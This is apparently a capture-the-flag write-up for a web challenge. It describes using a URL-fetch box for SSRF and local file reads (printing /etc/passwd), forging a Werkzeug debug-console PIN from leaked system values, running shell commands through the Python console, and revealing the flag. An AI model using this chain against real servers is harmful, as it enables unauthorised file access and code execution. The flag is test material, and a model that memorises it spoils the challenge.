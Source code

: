 # Enumberator

Opeing this page with a browser showed a page with a single input box.

![picture 1](../images/README-dd73e61fe2ef76467a015b68fedc155d3d393a8f50008889bb9f08c499a7cf27.png)  

We speculated that the server would make a web request to the page when we clicked the button on the page.

To verify this we entered `http://localhost:9002/` in the input box and hit enter.

The result was the page being loaded twice.

This potentially useful as it provided a way of accessing the server on a different
port by making queries to localhost on different ports.  Normally we would be unable to do this as we could only access the machine on `http://192.168.125.100:9002/`

The next discovery came from enetering invalid value for the url. This sent us to a `Werkzeug  traceback interpreter`.![picture 2](../images/README-31cc3e56240616a79395a5ba6549a5fca82d7744ff679f82cb6894b77ab152ae.png)  



Looking at the error we saw that if the string `file` was within the provided url then the server would attempt to open a file rather than making a network request.

![picture 3](../images/README-b355ec6fd9d28f2cf4f76b992b32de307754ec0076026bdcd1ad05e9484e5404.png)  

This was useful as it allowed us to see the server's internal state.

One of the first things we looked at was the passwd file

![picture 4](../images/README-7629975db1f301d0510d591db3d848ee4f9a4279a03de3301b1fbd629bd5d939.png)  


```
root:x:0/:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

Since only the root user had a shell and we had permission to access the passwd
 file , we speculated that the server was being run as root.

This was still not too helpful as although we could read any file on the system
 we still couldn't see the flag and we were unable to list files or run any other commands.

Researching `Werkzeug` further, we realised that it should be possible to access
 a python console. However navigating to `http://192.168.125.100:9002/console` gave us a request for a pin.

To identify what the pin was we looked at the the source of werkzeug - in
particular the `__init__.py` file.

We saw that the `cgroup`, MAC address and `boot_id` were used to generate the pin.

Using the trick from earlier we were able to access files containing these values.


Next we copied the contents of __init__.py to a file called `fakeinit.py` and
substituted the values for the `cgroup`, MAC address and `boot_id`, as well as some
other values which we were able to make informed guessed about - such as the
 username which we guessed to be `root`.

Executing this script gave us a pin:
  
```sh
python ./3-enumerator/fakeinit.py
('100-862-562', '__wzdb3546933b40f098f5b74')
```

We then entered this pin into Werkzeug  and we were able to access a python console.
![picture 5](../images/README-3f77f0b1ced0e9327b8262d92e2c746794e08369a31c0d1690b88a45dd82c926.png)  


To get the flag we ran the following command:

```python
import os
stream = os.popen("ls -la")
stream.read()
```
This gave us a directory listing:

```
total 20
drwxr-xr-x    1 root     root          4096 Mar 30 19:09 .
drwxr-xr-x    1 root     root          4096 Apr  1 11:57 ..
-rw-r--r--    1 root     root          1359 Mar 30 18:57 enumerator.py
-rw-r--r--    1 root     root            41 Mar 30 18:57 jthnp_flag_ohvlt.txt
-rw-r--r--    1 root     root           183 Mar 30 18:57 requirements.txt
```

Clearly the flag was in the `jthnp_flag_ohvlt.txt` file.

Accessing it was simply a matter of doing
```python
stream = os.popen("cat jthnp_flag_ohvlt.txt")
stream.read()
```

Which gave us the flag of `ICTF{th3_fl4g_w4s_h1d1ng_1n_pl41n_s1ght}`